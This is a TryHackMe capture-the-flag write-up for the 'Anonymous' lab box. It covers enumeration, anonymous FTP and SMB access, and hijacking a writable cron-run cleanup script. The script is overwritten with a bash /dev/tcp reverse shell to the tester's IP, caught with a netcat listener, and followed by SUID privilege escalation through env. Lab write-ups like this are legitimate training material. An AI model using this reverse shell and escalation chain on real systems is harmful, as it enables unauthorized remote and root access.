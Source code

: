 # Anonymous-TryHackMe

This is a writeup for THM box - Anonymous
https://tryhackme.com/room/anonymous

## namp
Doing a nmap scan we found 4 ports open

![](images/nmap1.png)

## SMB
Connecting to the smb share and pressing `enter` when we asked for the passwd we find

[![](images/smb1.png)]
entering the `pics` dir we get two images but they are of no use.

![](images/smb2.png)

![corgo2.jpg|300x200](images/corgo2.jpg "corgo2.jpg")    ![|300x200](images/puppos.jpeg)
					corgo.jpg                                                   puppos.jpg


## FTP 
connecting to ftp we get 3 files 
![|](images/ftp1.png)

***
Interesting files are 
###### `clean.sh`
Notice we have write permission to this file.
```bash 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

######  `removed_files.log
It contains the log written by `clean.sh`
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete

```

As `clean.sh` is run periodically we can add our own script to it and get a shell .
Using [revshells](https://www.revshells.com/) we modify `clean.sh` as 
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.17.52.250/5050 0>&1
```

and we put the file on the ftp server 
```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||31290|)
150 Ok to send data.
100% |************************************************************************************************************************************************|    53      958.47 KiB/s    00:00 ETA
226 Transfer complete.
53 bytes sent in 00:00 (0.10 KiB/s)
ftp> 
```

Now we litsen on our machine with the following  command
```bash
nc -lvnp 5050
```

After 1 min we get a shell on the box

![](images/shell1.png)
looking for `SUID` on the box we get 
```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Using https://gtfobins.github.io/ we fing env binary to be useful and we get the  root shell on the system.
![](images/shell2.png)

